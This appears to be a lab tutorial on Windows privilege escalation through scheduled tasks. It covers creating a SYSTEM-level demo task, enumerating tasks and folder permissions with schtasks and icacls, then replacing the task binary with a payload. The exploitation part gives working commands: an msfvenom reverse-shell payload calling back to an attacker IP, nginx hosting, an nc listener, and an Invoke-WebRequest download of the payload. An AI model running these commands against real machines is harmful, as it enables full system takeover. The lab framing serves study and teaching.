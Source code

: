 Schedule Task Windows Privilege Escalation

1. Introduction to Windows Task Scheduler
Windows Task Scheduler is a built-in service that allows users to automate the execution of tasks at specified times or upon certain triggers. Administrators commonly use this feature for system maintenance, but attackers can also exploit it for persistence and privilege escalation.
An adversary can manipulate scheduled tasks to execute malicious code with elevated privileges. This attack vector is particularly useful when a task is configured to run with SYSTEM privileges but its executable is writable by a low-privileged user.
2. Abusing Scheduled Tasks for Privilege Escalation
By identifying a scheduled task that executes as SYSTEM, an attacker with write permissions to its executable can replace it with a malicious payload. The next time the task runs, the payload executes with SYSTEM privileges, providing full control over the compromised machine.
The attack process follows these steps:
Identify a scheduled task running with SYSTEM privileges.
Check if the current user has write or modify permissions on the task's executable file.
Replace the executable with a malicious payload.
Wait for the task to run and gain a SYSTEM shell.
3. Setting Up the Lab Environment
For this demonstration, we set up a Windows 10 victim machine and a Kali Linux attacker machine.
Attacker: Kali Linux (192.168.100.10) running Metasploit Framework
Victim: Windows 10 (192.168.1.11) with a scheduled task
Creating the Scheduled Task for demo
Create C:\Custom Tasks\Backup\Test.exe	
Run the following PowerShell script as an administrator on the victim machine:
$Action = New-ScheduledTaskAction -Execute "C:\Custom Tasks\Backup\Test.exe"

$Trigger1 = New-ScheduledTaskTrigger -AtLogOn
$Trigger2 = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 5) -RepetitionDuration (New-TimeSpan -Hours 24)

$Principal = New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -LogonType ServiceAccount -RunLevel Highest

$Task = New-ScheduledTask -Action $Action -Trigger $Trigger1, $Trigger2 -Principal $Principal

Register-ScheduledTask -TaskName "BackupTaskDemo" -InputObject $Task -Force
Explanation of Each Part of the Script:
$Action → Executes the file "C:\Custom Task\Backup\Test.ext".
$Trigger1 → Activates when the user logs in.
$Trigger2 → Repeats every 5 minutes for 24 hours after initialization.
$Principal → Runs with SYSTEM privileges, without requiring a password, and executes with the highest privileges.
Register-ScheduledTask → Registers the task with the name "BackupTaskDemo".
________________________________________
✅ Deleting the Task After Completion
If you want to remove the task after 24 hours, you can use the following PowerShell command:
powershell
CopyEdit
Start-Sleep -Seconds 86400  # Wait for 24 hours
Unregister-ScheduledTask -TaskName "BackupTaskDemo" -Confirm:$false
Alternatively, you can include this in the main script for automatic removal.
________________________________________
✅ Manually Deleting the Task If Needed
If you need to delete the task immediately, use:
powershell
CopyEdit
Unregister-ScheduledTask -TaskName "BackupTaskDemo" -Confirm:$false


Before we dive into the enumeration of scheduled tasks, we need to understand our visibility as a standard user.
Unfortunately for us as the attacker, Microsoft does something pretty smart and only allows standard users to view scheduled tasks that belong to them. This means that any tasks we are interested in, such as those created by the administrator, we will not see when trying to query for them.
For example, if we use the following command with administrative permissions, we can query the scheduled task to find information about how it works:
schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment"
 

This provides us with a lot of good information about the task. For starters, the task name is “BackupTaskDemo”. Additionally we can see that the task runs every five minutes and executes as SYSTEM.

 Let’s check if our user is any interesting groups.
net user Heaven 
 

Enumerating Folder Permissions

we can check our permissions on the folder using the built-in icacls command. 
First, we will see how we can use the icacls command to check the permissions of folder and file ACLs.
The permissions we are looking for on the Backup folder are any one of the following three permissions:
(F) Full Control
(M) Modify
(W) Write
The user / group permissions we are looking for are the following:
The user we are currently logged in as (%USERNAME%)
Authenticated Users
Everyone
BUILTIN\Users
NT AUTHORITY\INTERACTIVE
We want to check the permissions of both the Backup folder as well as the permissions on the executable itself. Starting with the folder since it is most likely that the file permissions will be inherited from the folder permissions. This is the default behaviour; however, there are times we can find that the folder is not writeable but the file is.
icacls "C:\Custom Tasks\Backup"

icacls "C:\Custom Tasks\Backup\Test.exe"
	 
This shows that authenticated users have the ability to Modify files in the folder. Also, we can see an (I) indicating that the permissions were inherited, as expected. We also see that the Backup folder has inherited permissions, ultimately meaning that we have Modify permissions on the Custom Tasks folder and those permissions have been inherited to all sub folders and files.

Exploiting a Scheduled Task to get a SYSTEM Shell
Now that we have found a scheduled task, we need to craft our own malware to replace the legitimate task binary.

Using Metasploit to create payload	

On Kali Linux, open a terminal and generate a malicious executable:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.10 LPORT=4444 -a x64 --platform Windows -f exe -o payload.exe
Step 3: Send Payload through Nginx Server
cd /tmp
sudo apt install nginx -y
sudo cp payload.exe /var/www/html/
sudo systemctl restart nginx
Setting Up a Listener on Kali Linux
To capture the reverse shell, the attacker sets up a Metasploit listener:
nc -nvlp 4444
Downloading the payload on Windows:

Invoke-WebRequest -Uri "http://192.168.100.10/payload.exe" -OutFile "C:\Windows\Temp\payload.exe"

	
Lastly, we need to move our malicious version of payload.exe into the C:\Custom Tasks\Backup folder.
Replacing the Original Executable


Copy-Item -Path "C:\Windows\Temp\payload.exe" -Destination "C:\Custom Tasks\Backup\Test.exe" -Force
	
when we check our listener, we have a SYSTEM shell!


	 


 
 

